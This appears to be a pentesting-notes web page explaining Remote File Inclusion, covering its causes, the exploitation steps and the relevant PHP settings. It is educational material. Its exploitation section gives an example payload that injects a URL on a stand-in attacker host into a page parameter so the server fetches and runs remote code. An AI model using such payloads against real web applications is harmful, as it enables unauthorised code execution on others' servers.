

repository: amandaguglieri/hackinglife · page: webexploitation/remote-file-inclusion-rfi/index.html · generator: mkdocs

---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
# RFI attack - Remote File Inclusion

A Remote File Inclusion (RFI) vulnerability is a type of security flaw found in web applications that allow an attacker to include and execute remote files on a web server. 

This vulnerability arises due to improper handling of user-supplied input within the context of file inclusion operations. 

## Causes

- Insufficient Input Validation: The web application may not validate or filter user input, allowing attackers to inject malicious data.  
- *Lack of Proper Sanitization*: Even if input is validated, the application may not adequately sanitize the input before using it in file inclusion operations.
- *Using User Input in File Paths*: Applications that dynamically include files based on user input are at high risk if they don't carefully validate and control that input.
- *Failure to Implement Security Controls*: Developers might overlook security best practices, such as setting proper file permissions or using security mechanisms like web application firewalls (WAFs).

## How to exploit it?

Identify Vulnerable Input: The attacker identifies a web application that accepts user input and uses it in a file inclusion operation, typically in the form of a URL parameter or a POST request parameter. 

Inject Malicious Payload: The attacker injects a malicious file path or URL into the vulnerable parameter. For example, they might replace a legitimate parameter like ?page=about.php with ?page=http://evil.com/malicious_script.

Server Executes Malicious Code: When the web application processes the attacker's input, it dynamically includes the remote file or URL. This can lead to remote code execution on the web server, as the malicious code in the included file is executed in the server's context.

## php


In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion.
